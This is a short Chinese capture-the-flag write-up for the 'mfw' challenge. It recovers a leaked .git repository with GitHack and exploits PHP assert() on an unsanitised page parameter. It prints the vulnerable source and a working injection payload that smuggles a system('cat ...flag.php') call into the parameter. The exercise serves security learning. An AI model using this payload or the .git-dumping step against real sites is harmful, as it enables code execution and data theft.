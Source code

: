 # mfw
git泄露,这里用到kali,因为自带python2,使用GitHack工具
```
python2 GitHack.py http://61.147.171.105:56791/.git
```
执行后下载了index.php(kali中打开不会乱码)
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
考了一个assert函数,危险函数造成代码执行,get传入参数$page

assert("strpos('') or system('cat+./templates/flag.php');//.php', '..') === false")
assert("file_exists('') or system('cat+./templates/flag.php');//.php')")

$page=') or system('cat+./templates/flag.php');//